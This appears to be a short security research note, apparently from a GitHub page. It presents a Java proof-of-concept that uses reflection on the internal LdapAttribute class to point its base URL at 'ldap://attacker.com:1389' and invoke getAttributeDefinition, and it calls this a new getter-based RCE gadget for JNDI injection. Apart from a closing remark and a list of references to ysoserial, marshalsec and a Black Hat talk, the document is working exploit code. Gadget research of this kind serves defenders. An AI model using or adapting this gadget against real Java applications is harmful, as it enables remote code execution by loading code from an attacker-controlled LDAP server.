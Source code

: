 ```Java
import javax.naming.CompositeName;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class PayloadTest {

    public static void main(String[] args) throws Exception {


        String ldapCtxUrl = "ldap://attacker.com:1389";

        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                new Object[] {"name"});

        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));

        Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition", new Class[] {});
        getAttributeDefinitionMethod.setAccessible(true);
        getAttributeDefinitionMethod.invoke(ldapAttribute, new Object[] {});

    }

}
```

So if I am not mistaken, it should also be considered as a new getter RCE gadget ;)


## References

* https://github.com/frohoff/ysoserial
* https://github.com/mbechler/marshalsec
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



